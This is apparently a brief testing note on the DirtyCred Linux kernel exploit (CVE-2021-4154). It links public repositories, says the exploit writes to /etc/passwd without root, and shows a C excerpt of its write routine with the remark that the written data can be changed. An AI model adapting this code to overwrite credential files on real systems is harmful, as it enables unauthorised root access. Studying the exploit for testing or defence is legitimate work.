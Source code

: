 # Testing 'DirtyCred' - CVE-2021-4154

<https://github.com/markakd/dirtycred>

<https://github.com/Markakd/CVE-2021-4154>

This was a linux kernel exploit that can write to /etc/passwd without root privileges. 

You can change the data being written in the write_cmd function.

```c
void *write_cmd() {
  char data[1024] = "\nDirtyCred works!\n\n";
  struct iovec iov = {.iov_base = data, .iov_len = strlen(data)};

  while (!run_write) {
  }
  run_spray = 1;
  if (writev(uaf_fd, &iov, 1) < 0) {
    printf("failed to write\n");
  }
  printf("[*] overwrite done! It should be after the slow write\n");
}
```

